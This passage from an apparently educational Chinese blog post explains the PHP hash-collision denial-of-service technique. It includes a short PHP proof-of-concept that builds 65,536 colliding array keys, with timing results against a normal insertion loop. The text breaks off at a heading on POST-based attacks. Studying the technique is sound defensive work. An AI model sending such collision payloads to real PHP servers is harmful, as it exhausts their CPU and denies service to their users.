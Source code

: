 ……

概况来说只要保证后16位均为0，则与掩码位于后得到的哈希值全部碰撞在位置0。

下面是利用这个原理写的一段攻击代码：

    
```php
<?php
 
$size = pow(2, 16);
 
$startTime = microtime(true);
 
$array = array();
for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $maxKey; $key += $size) {
    $array[$key] = 0;
}
 
$endTime = microtime(true);
 
echo $endTime - $startTime, ' seconds', "\n";
```


这段代码在我的VPS上（单CPU，512M内存）上用了近88秒才完成，并且在此期间CPU资源几乎被用尽：

![][7]

![][8]

而普通的同样大小的哈希表插入仅用时0.036秒：

```php
<?php
 
$size = pow(2, 16);
 
$startTime = microtime(true);
 
$array = array();
for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $size; $key += 1) {
    $array[$key] = 0;
}
 
$endTime = microtime(true);
 
echo $endTime - $startTime, ' seconds', "\n";
```

![][9]

可以证明第二段代码插入N个元素的时间在O(N)水平，而第一段攻击代码则需O(N^2)的时间去插入N个元素。

#### POST攻击


[0]: http://blog.codinglabs.org/articles/hash-collisions-attack-on-php.html
[5]: ../img/hash-collisions-attack-on-php1.png
[6]: http://blog.csdn.net/chen_alvin/article/details5846714
[7]: ../img/hash-collisions-attack-on-php2.png
[8]: ../img/hash-collisions-attack-on-php3.png
[9]: ../img/hash-collisions-attack-on-php4.png
[10]: http://www.laruence.com/2011/12/302440.html
[11]: http://cn.php.net/manual/en/function.json-decode.php
[12]: http://en.wikipedia.org/wiki/Red%E2%80%93black_tree
[13]: http://nikic.github.com/2011/12/28Supercolliding-a-PHP-array.html
[14]: http://www.laruence.com/2011/12/292412.html
[15]: http://www.laruence.com/2011/12/302435.html
[16]: http://www.php.net/archive/2011.php